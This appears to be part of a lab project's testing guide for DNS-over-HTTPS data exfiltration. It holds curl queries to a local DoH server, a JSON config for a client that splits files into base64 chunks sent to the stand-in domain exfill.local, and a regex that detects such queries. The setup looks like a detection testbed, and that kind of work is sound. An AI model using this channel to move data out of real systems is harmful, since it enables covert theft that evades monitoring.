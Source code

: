 ### Manual Component Testing

#### Test DoH Manually
```bash
# Basic DoH test
curl -k -H "accept: application/dns-json" \
     "https://doh.local/dns-query?name=google.com&type=A"

# Test with custom query
curl -k -H "accept: application/dns-json" \
     "https://doh.local/dns-query?name=test.exfill.local&type=A"
```

#### Test Exfiltration Client
```bash
# Manual client test using JSON configuration
cd exfiltration/client/

# Create simple test configuration
cat > test_debug.json << 'EOF'
{
  "name": "Debug Test",
  "description": "Simple debug configuration",
  "exfiltration_config": {
    "doh_server": "https://doh.local/dns-query",
    "target_domain": "exfill.local",
    "chunk_size": 20,
    "encoding": "base64",
    "timing_pattern": "regular",
    "base_delay": 0.5
  },
  "test_files": ["debug_test.txt"],
  "detection_expected": true,
  "notes": "Debug configuration for troubleshooting"
}
EOF

# Create test file
echo "Hello World Debug Test" > debug_test.txt

# Run test
python run_client.py --config test_debug.json --file debug_test.txt
```

#### Test Pattern Detection
```python
# Manual pattern test
import re

# Test pattern from server
pattern = re.compile(r"(\d+)-(\d+)-(\d+)-(.+)")
test_queries = [
    "1234567890-0001-0005-dGVzdA.random.exfill.local",
    "1234567890-0002-0005-ZGF0YQ.random.exfill.local"
]

for query in test_queries:
    match = pattern.match(query.split('.')[0])
    if match:
        session_id, index, total, data = match.groups()
        print(f"Detected: session={session_id}, chunk={index}/{total}")
```

